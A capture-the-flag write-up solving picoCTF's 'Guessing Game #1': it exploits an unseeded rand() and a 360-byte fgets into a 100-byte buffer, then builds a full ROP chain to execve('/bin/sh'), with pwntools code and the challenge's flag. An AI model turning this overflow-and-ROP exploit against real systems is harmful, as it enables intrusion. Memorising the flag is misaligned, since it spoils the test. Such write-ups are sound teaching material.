 # Guessing Game #1

## Introduction

Guessing Game #1 is a 250 point binary-exploitation challenge from picoCTF. The
description states:

> I made a simple game to show off my programming skills. See if you can beat
it!

We get the executable, the Makefile, and the source.

## Information Gathering

### Hint #1

> Tools can be helpful, but you may need to look around for yourself.

Pretty ambiguous I think. I am not sure what to make of this.

### Hint #2

> Remember, in CTF problems, if something seems weird it probably means
something...

Also pretty ambiguous, but I guess we should dive in!

### Vulnerability Mitigations

```shell
$ checksec vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found #(this is a lie?)
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The Makefile suggests no stack canary given the `-fno-stack-protector` flag. We
confirm it is not PIE. It's also statically linked which is neat and give us an
opportunity to do relative jumps easier.

Using `objdump --syms` I didn't see symbols for `system` or `exec*`, so I am
guessing that either the remote server is going to read the flag for us or we
need some shellcode. Current thoughts anyways. We need to check the source
first.

### Source

`main` is essentially the following loop:

```c
while (1) {
res = do_stuff();
if (res) {
    win();
}
```

`do_stuff` gets a random number using `rand`. Note that it is never seeded
using `srand`. `man 3 rand` states that this means it will always have a
default seed of 1:

> If no seed value is provided, the rand() function is automatically seeded
with a value of 1.

So our random number is not so random; we will get the same number each time.
We should be able to figure it out with GDB.


```c
int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;

	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);

	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print
statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}
```

Continuing on, we see that if we 'win' we get to the following function. And we
can spot the bug. The developer should have limited the call to `fgets` to
BUFSIZE (which is a macro for 100), but it is instead 360. So if we get to the
`win` function we should be able to overflow the buffer and overrun the return
address. Cool, lets do that.

```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

## Solving

If we set a breakpoint on increment (we have symbols, thank you developers!) we
can inspect what the expected number is that we need to guess, 0x54 or 84.

```gdb
break increment
finish
p/d $rax
$1 = 84
```

We can do this with pwntools to automate finding this value, which makes it
more repeatable in the future. So let's do that in our `./solve.py` script. For
whatever reason, when I set the breakpoint on the symbol 'increment', it
resolved the wrong address even though 'info sym increment' showed the correct
address. I'm not sure what was going on, so I just set the address to the
return from `increment` in `main`.

```python
INCREMENT_ADDRESS = 0x00400bbc
with gdb.debug(exe.path, gdbscript=GDB_COMMAND, api=True) as vuln:
        # Add our breakpoint (we could do this in the gdbscript, but I like the
API).
        vuln.gdb.Breakpoint('* ' + str(INCREMENT_ADDRESS))

        vuln.gdb.continue_and_wait()

        # Get the selected frame, which will allow us to extract information
regarding things like the registers, stack, etc.
        frame = vuln.gdb.selected_frame()

        # Get the return value of increment. This should be the same each time
since the developer did not seed rand.
        rax = frame.read_register('rax')

        # Cast as an integer.
        return int(rax.cast(vuln.gdb.lookup_type('long')))
```

Knowing the answer to the first question, we then need to overflow the buffer
and control the return address of the function. `checksec` is incorrect in
reporting a stack canary, as we don't see any when we decompile it. Using a
cyclic pattern and a core dump we find the offset on the stack to the return
address:

```python
# Generate a cyclic pattern so that we can auto-find the offset.
payload = cyclic(NUM_CYCLIC_BYTES)

# Send the cyclic pattern
proc.sendlineafter(b'Congrats! You win! Your prize is this print statement!\n',
payload)
proc.wait()

# Get the core dump.
core = proc.corefile

# Find our offset.
offset = cyclic_find(pack(core.fault_addr), n=4)
```

With control of the return address, we now need to ROP around to invoke
`execve` and open up a shell. Fortunately, `ropper` takes care of this for us.
Though note that the output is not in `python3` syntax and you'll have to make
a couple modifications (see included `solve.py`):

```shell
$ ropper --file ./vuln --chain "execve cmd=/bin/sh"

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 #
f01c7ecf217d3cebdf4f676920f17ebfcb33d5d14d78df8dfffed5c5290e6f62
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += '//bin/sh'
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi],
r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi],
r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x0000000000010ca3) # 0x0000000000410ca3: pop rsi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x000000000004cc26) # 0x000000000044cc26: pop rdx; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000163f4) # 0x00000000004163f4: pop rax; ret;
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000049e35) # 0x0000000000449e35: syscall; ret;
print rop
```

If we send this to the program (after padding as appropriate with the offset)
then we land a shell.

```python
ropchain = fit ({
	offset: call_execve()
})

io.sendlineafter(b'Name? ', ropchain)
# Get the flag.
io.sendline(b'cat flag.txt')
io.recvline()
io.recvline()
flag = io.recv()
```

We get the flag: `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_44d502016ea374b8}`

## Future Work

It would be neat to implement `ropper` with `pwntools` so you didn't need to
copy and paste the ropchain. Also update to `python3`
